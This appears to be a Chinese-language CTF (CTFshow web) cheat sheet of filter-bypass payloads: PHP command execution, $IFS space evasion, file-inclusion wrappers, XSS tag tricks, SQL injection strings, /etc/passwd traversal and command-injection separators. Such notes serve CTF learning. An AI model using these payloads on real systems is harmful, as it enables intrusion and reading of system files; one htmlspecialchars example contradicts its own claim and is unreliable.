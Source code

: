 # CTFshow-web

## 命令执行

### 执行命令的方法

system()

shell_exec()

`

popen


## 规避字符

规避空格：  
%20，%09、$IFS$9、${IFS}

注意：上面的$需要用反斜杠进行转义

规避其他字符：  
过滤的flag，php，点，可以用通配符*或?代替  

## 文件包含

造成文件包含漏洞的函数通常有：
include、require、include_once、require_once、highlight_file、show_source、file_get_contents、fopen、file、readline
2.data协议
用法：
data://text/plain,xxxx(要执行的php代码)
data://text/plain;base64,xxxx(base64编码后的数据)
3.php://协议
php://input,用于执行php代码，需要post请求提交数据。


1. 绕过字符串过滤
PHP中，字符串过滤通常通过str_replace、preg_replace等函数实现。常见的绕过方法包括：

使用字符编码
例如，过滤掉了script标签，可以通过使用HTML实体来绕过：

```
<?php
echo htmlspecialchars("<scr<script>ipt>alert('XSS');</scr<script>ipt>");
?>
```

利用大小写敏感
有些过滤器对大小写敏感，可以尝试使用混合大小写：

```
<?php
echo "<ScRipT>alert('XSS');</ScRipT>";
?>
```

2. 绕过SQL注入过滤
对于SQL注入，通常的绕过方法包括：

利用注释符
sql
复制代码
SELECT * FROM users WHERE id=1 OR 1=1-- 
利用联合查询
sql
复制代码
SELECT * FROM users WHERE id=1 UNION SELECT 1, 'another_user', 'password';
使用双引号或单引号闭合
sql
复制代码
```
SELECT * FROM users WHERE username='' OR 1=1-- '
```
3. 绕过目录遍历过滤
对于目录遍历，可以尝试：

使用双重URL编码
如果过滤掉了../，可以尝试使用双重URL编码：

bash
复制代码
```
../../etc/passwd -> %252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
使用长路径
有时候，可以通过长路径来绕过过滤：

bash
复制代码
```
....//....//....//etc/passwd
```
4. 绕过命令注入过滤
对于命令注入，可以尝试：

利用特殊字符
如果过滤掉了|，可以尝试使用换行符：

bash
复制代码
```
`command
another_command`
```
使用反引号
如果过滤掉了&&，可以尝试使用反引号：

bash
复制代码
```
`command1; command2`
```


